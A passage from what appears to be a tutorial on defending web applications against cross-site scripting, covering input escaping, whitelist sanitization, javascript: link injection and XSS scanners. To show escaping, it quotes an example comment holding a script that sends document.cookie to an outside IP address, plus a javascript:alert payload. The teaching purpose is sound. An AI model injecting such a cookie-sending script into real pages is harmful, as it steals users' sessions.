 * **Escaping String Input** <br>
By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).
In the above example, the comment section will become like this:

    > **Comments Section** <br>
    That's a very nice picture! <br>
    Good photograph! <br>
    I **like** your photograph! <br>
    This is an innocent looking comment. `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>`

    The `<script>` and `</script>` will be displayed as text rather than being run as `JavaScript` by the browser.

* **Whitelist Sanitization** <br>
By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Note that these two ways alone are not enough to protect your web application against XSS attacks. Sophisticated attacks will make use of the different possible user inputs to inject code or illegal characters that are not limited to `<script>...</script>`. It is important to note where the user input is going to be generated in the output.

For example, if you are building a profile page and allow user to add their own links to certain buttons:

`<a href="{user input link}">...</a>`

If a malicious user submits the following as input: 

`javascript:alert("XSS!")`

It will result in the button running the javascript code when pressed → <a href="javascript:alert('XSS!')"><span class="glyphicon glyphicon-user"></span></a> 

You can also consider using XSS scanning tools to check whether your web application is vulnerable. Below are links of some open-source XSS scanning tools: 

1. http://wapiti.sourceforge.net/ (Web Application Vulnerability Scanner)
1. http://w3af.org/ (Web Application Attack and Audit Framework)
1. https://www.arachni-scanner.com/ (Web Application Security Scanner Framework)

## Where to Go From Here?

Although XSS is the most common web application vulnerability, there are also many other types of vulnerabilities. It is important to be aware of them to properly secure your web application. Given below is a summary of web application vulnerabilities (for the full report see <a href="https://www.ptsecurity.com/upload/corporate/ww-en/analytics/Web-application-attacks-2018-eng.pdf" target="_blank">here</a>):

![Graphical Statistic](./Images/StatisticGraphic.png)
